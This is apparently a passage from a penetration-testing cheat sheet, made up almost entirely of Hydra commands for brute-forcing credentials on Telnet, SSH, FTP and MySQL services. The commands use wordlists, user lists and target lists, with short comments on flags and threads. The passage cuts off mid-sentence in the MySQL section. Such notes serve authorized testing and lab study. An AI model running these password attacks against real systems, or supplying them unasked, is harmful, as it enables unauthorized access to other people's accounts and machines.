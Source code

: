 
## Telnet

```sh
hydra -l <username> -P <password_file> telnet://targetname
```

## SSH

```sh
hydra -l root -M /path/to/ip/list.txt -P /path/to/passwordlist.txt ssh
```

```sh
hydra 192.168.1.26 ssh2 -s 22 -P pass.txt -L users.txt -e ns -t 10
 # this will attack the system 192.168.1.26 on port 22
 # and will use as password file pass.txt while
 # for users the file users.txt
 # the process will use 10 threads at a time
```


```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

```sh
hydra -L logins.txt -P pws.txt -M targets.txt ssh
# tries the users from logins.txt and the paasswords from pws.txt
# on all the machines listed on targests.txt on the ssh port/service
```



## FTP 

```sh
hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp
```


```sh
hydra -l user -P passlist.txt ftp://192.168.0.1
```

## MySQL and other databases

We can use hydra with many kinds of databases, anyway it is very important for
us to check that we have installed hydra with the adequate module to perform a
specific bruteforce.

**IMPORTANT**: if we did not install hydra with mysql5 support it will not work,
we can check the modules available by issuing a `hydra -h`, if we just see
`mysql(v4)` this means that our version will not be compatible with `mysql5`,
while if we see `mysql` then our version of hydra will be compatible also with
mysql5 databases.

```sh
hydra -L <your_username_file> -P <your_password_file> <IP> mysql -s 3306 -o output.txt
```
notice that this is equivalent to:
